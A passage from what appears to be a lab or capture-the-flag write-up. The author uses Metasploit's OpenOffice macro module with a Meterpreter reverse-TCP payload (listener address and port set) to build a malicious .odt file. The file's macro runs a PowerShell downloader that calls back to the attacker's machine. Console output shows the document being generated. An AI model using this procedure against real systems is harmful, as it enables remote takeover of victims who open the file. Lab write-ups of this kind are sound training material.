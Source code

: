     
    Payload options (windows/meterpreter/reverse_tcp):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     10.5.5.5         yes       The listen address (an interface may be specified)
       LPORT     4444             yes       The listen port
    
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Apache OpenOffice on Windows (PSH)
    
    

On running, it will generate a document with a macro. That macro contains code
that executes a PowerShell downloader, which reaches back to my Kali box and
downloads the rest of the payload, in this case, Meterpreter.

#### Generate Document

I’ll run this to generate the document and start the listener. I’ll have to
chance the `SRVPORT` as I already have burp listening on 8080, and it won’t
create the document if it can’t listen.

    
    
    msf5 exploit(multi/misc/openoffice_document_macro) > [*] Using URL: http://0.0.0.0:8088/Pc2F6ndgt1H5jGs
    [*] Local IP: http://10.1.1.41:8088/Pc2F6ndgt1H5jGs
    [*] Server started.
    [*] Generating our odt file for Apache OpenOffice on Windows (PSH)...
    [*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Configurations2                                                                                                           
    [*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Configurations2/accelerator
    [*] Packaging file: Configurations2/accelerator/current.xml
    [*] Packaging file: manifest.rdf
    [*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Basic
    [*] Packaging file: Basic/script-lc.xml
    [*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Basic/Standard
    [*] Packaging file: Basic/Standard/Module1.xml
    [*] Packaging file: Basic/Standard/script-lb.xml
    [*] Packaging file: meta.xml
    [*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/META-INF
    [*] Packaging file: META-INF/manifest.xml
    [*] Packaging file: content.xml
    [*] Packaging directory: /usr/share/metasploit-framework/data/exploits/openoffice_document_macro/Thumbnails
    [*] Packaging file: Thumbnails/thumbnail.png
    [*] Packaging file: mimetype
    [*] Packaging file: styles.xml
    [*] Packaging file: settings.xml
    [+] msf.odt stored at /root/.msf4/local/msf.odt
    